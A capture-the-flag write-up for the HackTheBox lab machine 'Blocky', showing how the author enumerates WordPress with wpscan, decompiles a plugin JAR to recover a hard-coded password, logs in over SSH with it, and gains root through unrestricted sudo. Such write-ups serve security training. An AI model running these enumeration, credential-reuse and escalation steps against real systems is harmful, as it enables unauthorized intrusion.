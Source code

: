 ```yaml
---
title: HackTheBox - Blocky
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-09-20
tags: [tcp/80-http/cms/wordpress]
img_path: /Writeups/HackTheBox/Linux/Blocky/images/
image:
  src: Pasted%20image%2020220920195609.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
This machine begins w/ a web enumeration, discovering a directory `/plugins` and `wordpress` CMS running on it. After enumerating `wordpress`, user `notch` is discovered. The `/plugins` directory contains 2 `java` archives. After extracting it, a compiled java file is found, simply decompiling it reveals SSH password for user `notch`. 

For the privilege escalation part, user `notch` is able to run any command as `root`, running `su` privilege escalated us to `root`.

---

| Column       | Details                                                       |
| ------------ | ------------------------------------------------------------- |
| Box Name     | Blocky                                                        |
| IP           | 10.10.10.37                                                   |
| Points       | 20                                                            |
| Difficulty   | Easy                                                          |
| Creator      | [Arrexel](https://www.hackthebox.com/home/users/profile/2904) |
| Release Date | 21 Jul 2017                                                              |


# Recon

## TCP/80 (HTTP)
- FFUF
	```bash
	.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 3695ms]
	index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 70ms]
	javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 35ms]
	server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 37ms]
	wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 37ms]
	wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 36ms]
	wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 36ms]
	wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 37ms]
	xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 158ms]
	```
	- `plugins`
	- `phpmyadmin`



# Initial Foothold

## TCP/80 (HTTP) - Enumerate WP
1. Enumerate users 
	```
	┌──(root💀kali)-[~/htb/blocky]
	└─# wpscan --no-update --disable-tls-checks --url http://blocky.htb -e u -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_user_enum.txt"
	
	[i] User(s) Identified:
	
	[+] notch
	 | Found By: Author Posts - Author Pattern (Passive Detection)
	 | Confirmed By:
	 |  Wp Json Api (Aggressive Detection)
	 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)
	```
	- `notch`
2. Enumerate plugins
	```
	┌──(root💀kali)-[~/htb/blocky]
	└─# wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://blocky.htb -e ap -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_plugin_enum.txt"
	
	[i] Plugin(s) Identified:
	
	[+] akismet
	 | Location: http://blocky.htb/wp-content/plugins/akismet/
	 | Last Updated: 2021-10-01T18:28:00.000Z
	 | Readme: http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | [!] The version is out of date, the latest version is 4.2.1
	 |
	 | Found By: Known Locations (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/, status: 200
	 |
	 | Version: 3.3.2 (100% confidence)
	 | Found By: Readme - Stable Tag (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	```
3. Does not look vulnerable, move on


## TCP/80 (HTTP) - What kind of files are in /plugins directory
1. Download all files residing in `plugins`
2. Determine the file type of downloaded files 
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot]
	└─# file BlockyCore.jar griefprevention-1.11.2-3.1.1.298.jar 
	BlockyCore.jar:                       Java archive data (JAR)
	
	griefprevention-1.11.2-3.1.1.298.jar: Zip archive data, at least v2.0 to extract, compression method=deflate
	```
3. Extract `BlockyCore.jar`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# jar -xf BlockyCore.jar 
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	```
4. View directory structure of the extract files
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# tree -a .
	.
	├── BlockyCore.jar
	├── com
	│   └── myfirstplugin
	│       └── BlockyCore.class
	└── META-INF
	    └── MANIFEST.MF
	
	3 directories, 3 files
	```
	- `BlockyCore.jar`
5. Determine the file type of `Blocky.jore`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# file BlockyCore.class 
	BlockyCore.class: compiled Java class data, version 52.0 (Java 1.8)
	```
	- A Java class file is created by a Java compiler from `.java` files


## TCP/80 (HTTP) - Decompile .class file, obtaining credentials
1. Decompile `BlockyCore.class` file
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# javap -c BlockyCore.class | tee decompiled_BlockyCore.class
	```
2. View `decompiled_BlockyCore.class`, credentials found in the comments
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# cat decompiled_BlockyCore.class | grep -P '//'
	       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
	       5: ldc           #14                 // String localhost
	       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
	      11: ldc           #18                 // String root
	      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
	      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
	      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
	       1: ldc           #33                 // String TODO get username
	       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
	       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
	```
	- `8YsqfCTnvxAUeduzjNSXe22`


## TCP/22 (SSH)
1. SSH w/ `notch:8YsqfCTnvxAUeduzjNSXe22`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# sshpass -p '8YsqfCTnvxAUeduzjNSXe22' ssh notch@blocky.htb
	Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	7 packages can be updated.
	7 updates are security updates.
	
	
	Last login: Tue Sep 20 06:14:32 2022 from 10.10.14.14
	notch@Blocky:~$ id;whoami
	uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
	notch
	notch@Blocky:~$ 
	```


# Privilege Escalation

## Root - Sudo
1. Check `notch` sudo access
	```
	notch@Blocky:~$ sudo -l
	[sudo] password for notch: 
	Matching Defaults entries for notch on Blocky:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User notch may run the following commands on Blocky:
	    (ALL : ALL) ALL
	```
	- Able to run any command as `root`
2. Obtain `root` w/ `su`
	```
	notch@Blocky:~$ sudo su
	root@Blocky:/home/notch# id;whoami
	uid=0(root) gid=0(root) groups=0(root)
	root
	root@Blocky:/home/notch# 
	```


